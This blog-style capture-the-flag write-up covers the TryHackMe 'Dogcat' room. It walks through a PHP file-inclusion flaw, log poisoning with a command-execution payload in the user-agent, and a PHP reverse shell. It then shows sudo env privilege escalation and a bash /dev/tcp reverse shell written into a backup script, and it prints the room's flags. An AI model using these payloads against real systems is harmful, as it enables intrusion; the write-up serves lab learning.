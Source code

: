 ```yaml
---
title: "Dogcat - TryHackMe"
author: Ludovic COULON
date: 2020-06-02
hero: ./images/hero.png
excerpt: "Writeup for the Dogcat room on TryHackMe"
---
```


[TryHackMe | Dogcat](https://tryhackme.com/room/dogcat)

<div className="Image__Small">
  <img src="https://i.imgur.com/mj1rbea.png" alt="blog_image" />
</div>

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

**This machine may take a few minutes to fully start up.**

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.121.12
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I

80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 What is flag 1?

I'm going to try some basic LFI

<div className="Image__Medium">
  <img src="https://imgur.com/IeJGwlC.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/UMyhkfJ.png" alt="blog_image" />
</div>

I'm going to try with php filter let's see if this works..

[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)

<div className="Image__Medium">
  <img src="https://imgur.com/FXeOWux.png" alt="blog_image" />
</div>

```bash
php://filter/convert.base64-encode/resource=cat
# Let's decode the base64 to see the result
<img src="cats/<?php echo rand(1, 10); ?>.jpg" />
```

<div className="Image__Medium">
  <img src="https://imgur.com/jF0hO89.png" alt="blog_image" />
</div>

Nice ! We can see the php code let's see if there is something in the directory

```bash
php://filter/convert.base64-encode/resource=./cat/../index
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

There we go ! We have the php code let's see if we can do something with it 🤤

So.. There is no way that we can exploit the php code so let's look at the nmap result and we have the apache version, let's see if we can see the log.

```bash
By default, you can find the Apache access log file at the following path:

    /var/log/apache/access. log.
    /var/log/apache2/access. log.
    /etc/httpd/logs/access_log.
```

If we try with this following url

```bash
php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log
```

There will be an error its because the code don't like the ".log" let's correct that 😃

On the php code there is this ternary condition "\$\_GET["ext"]" let's use that at the end

<div className="Image__Medium">
  <img src="https://imgur.com/25dLhcZ.png" alt="blog_image" />
</div>

Nice ! It worked !! 😵

Let's decode the base64 to see the result 😊

```bash
10.9.2.228 - - [02/Jun/2020:20:38:04 +0000] "GET /?view=php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log&ext HTTP/1.1" 200 2890 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Now let's see if we can have an RCE attack 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/gZZJUJR.png" alt="blog_image" />
</div>

And there it is ! If we put "<?php system($_GET['cmd']);?>" on the user-agent we can execute code on the remote server.

Let's get a reverse shell using the same method..

[php | GTFOBins](https://gtfobins.github.io/gtfobins/php/#reverse-shell)

```bash

php -r '$sock=fsockopen("10.9.2.228"),"",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<div className="Image__Small">
  <img src="https://imgur.com/2bjNiUu.png" alt="blog_image" />
</div>

```bash
$ cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

### #2 What is flag 2?

```bash
$ cd ..
$ pwd
/var/www
$ ls
flag2_QMW7JvaY2LvK.txt
html
$ cat flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
```

### #3 What is flag 3?

```bash
$ sudo -l
Matching Defaults entries for www-data on 17d35d82c239:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 17d35d82c239:
    (root) NOPASSWD: /usr/bin/env
```

[https://gtfobins.github.io/gtfobins/env/#sudo](https://gtfobins.github.io/gtfobins/env/#sudo)

```bash
sudo env /bin/sh
```

```bash
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag3.txt
cat flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```

### #4 What is flag 4?

```bash
find / -type f -name *.sh 2>/dev/null
/opt/backups/backup.sh
/etc/init.d/hwclock.sh
/lib/init/vars.sh
/usr/local/lib/php/build/ltmain.sh
/usr/share/debconf/confmodule.sh
```

```bash
cd /opt/backups
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Let's add a reverse shell on the bash script and get hopefully the last flag 🤓

```bash
echo '#!/bin/bash' > backup.sh;echo 'bash -i >& /dev/tcp/10.9.2.228/9002 0>&1' >> backup.sh
```

```bash
➜  ~ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.121.12] 43500
bash: cannot set terminal process group (5464): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4*
cat flag4*
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
root@dogcat:~#
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/GAKz5CS.png" alt="TryhackMeProfile" />
  </a>
</center>
